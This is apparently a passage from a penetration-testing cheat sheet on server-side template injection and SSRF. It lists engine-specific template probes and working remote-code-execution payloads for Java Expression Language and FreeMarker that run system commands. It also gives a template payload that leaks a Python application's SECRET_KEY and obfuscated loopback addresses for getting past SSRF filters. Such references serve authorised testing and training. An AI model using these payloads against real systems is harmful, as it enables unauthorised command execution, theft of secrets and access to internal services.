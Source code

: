 -> Smarty or Mako  
```
{3*3}
```

-> ERB(Ruby)  
```
<%= 7*7 %>
```

-> FreeMarker  
```
#{3*3}
```

-> Other  
    
```
${3*3}
${{3*3}}
3*3
```

### Java Expression Language
```
{{T(java.lang.Runtime).getRuntime().exec('id')}}
''.class.forName('java.lang.Runtime').getRuntime().exec('id')
```

### FreeMarker
-> Remote Code Execution  
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```

### Python - Secret Key
  
```
{{settings.SECRET_KEY}}
```
  
### Doc for SSTI	
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
  
## Server-Side Request Forgery (SSRF)
### Bypass in Filters
-> Host obfuscation (hex, octa, integer)  
e.g.  
```
http://0177.0.0.1  
http://0x7F.0.0.1 
http://2130706433
```   

-> Rare address  
e.g.  
```
http://0/  
http://127.1
http://127.1.1  
http://127.127.127.127  
http://127.2.2.2  
http://127.2.0.2
```  
